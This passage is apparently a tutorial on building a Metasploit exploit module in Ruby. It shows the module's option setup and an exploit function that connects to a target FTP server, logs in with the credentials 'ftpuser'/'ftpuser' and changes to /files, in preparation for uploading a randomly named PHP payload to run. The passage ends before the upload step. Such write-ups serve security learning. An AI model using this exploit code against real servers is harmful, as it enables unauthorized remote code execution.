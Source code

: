 ```ruby
  
      register_options(
        [
          OptPort.new('RPORT', [true, 'HTTP port', 80]),
          OptPort.new('RPORT_FTP', [true, 'FTP port', 21]),
          OptString.new('TARGETURI', [true, 'Base path to the website', '/files/'])
        ])
    end
```

In the above code, we also register several options into our datastore which will be pulled in as variables in the rest of the module. For example, we know we our target URL where we write the PHP file for execution will be in the "/files" directory.

Now we can create an "exploit" function that will house all the activity to deploy our payload. To start, we initialize a connection to the FTP server with "Rex::Socket.create_tcp", and we will also define our PHP payload file name which will be a randomized alphanumeric value.

```ruby
    def exploit
      ftp_port = datastore['RPORT_FTP']
      payload_name = rand_text_alphanumeric(5+rand(3)) + '.php'
  
      sock = Rex::Socket.create_tcp('PeerHost' => rhost, 'PeerPort' => ftp_port)
  
      if sock.nil?
        fail_with(Failure::Unreachable, "#{rhost}:#{ftp_port} - Failed to connect to FTP server")
      else
        print_status("#{rhost}:#{ftp_port} - Connected to FTP server")
      end
  
      res = sock.get_once(-1, 10)
      unless res && res.include?('220')
        fail_with(Failure::Unknown, "#{rhost}:#{ftp_port} - Failure retrieving FTP 220 OK banner")
      end
      
      print_status("#{rhost}:#{ftp_port} - Sending copy commands to FTP server")
```

With a successful connection, commands can then be executed over the socket, and the goal will be to replicate what was seen in the pcap. 

We'll login with the ftpuser using the password 'ftpuser', set the the current working directory to "/files", place the server into ASCII mode, and then set it to passive mode. 

```ruby
      
      # Login as ftpsuer:ftpuser
      sock.puts("USER ftpuser\r\n")
      res = sock.get_once(-1, 10)
      unless res && res.include?('331')
        fail_with(Failure::Unknown, "#{rhost}:#{ftp_port} - Failure submitting username")
      end
  
      sock.puts("PASS ftpuser\r\n")
      res = sock.get_once(-1, 10)
      unless res && res.include?('230')
        fail_with(Failure::Unknown, "#{rhost}:#{ftp_port} - Failed to login.")
      end
  
      print_status("#{rhost}:#{ftp_port} - Successfully logged in.")
  
      # switch CWD to /files for upload
  
      sock.puts("CWD files\r\n")
      res = sock.get_once(-1, 10)
```